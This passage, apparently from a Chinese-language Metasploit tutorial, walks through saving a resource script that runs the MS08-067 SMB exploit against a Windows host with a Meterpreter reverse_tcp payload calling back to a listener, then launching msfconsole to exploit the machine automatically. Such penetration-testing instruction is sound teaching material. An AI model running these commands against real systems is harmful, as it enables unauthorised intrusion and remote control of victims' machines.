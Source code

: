 1.  我们打开任何编辑器—`nano`，`leafpad`等等。

1.  在这里，我们输入所有我们希望 MSF 执行的命令：

```
     use exploit/windows/smb/ms08_067_netapi
     set payload windows/meterpreter/reverse_tcp
     set RHOST 192.168.15.15
     set LHOST 192.168.15.20
     set LPORT 4444
     exploit -j
```

1.  我们将脚本保存为`.rc`扩展名：

![](img/e727ff55-006e-444e-b02a-0593fef1e1d6.png)

1.  现在我们启动`msfconsole`并输入命令自动利用机器：

![](img/af6731d6-1700-4a87-bb00-b9390cc6effd.png)
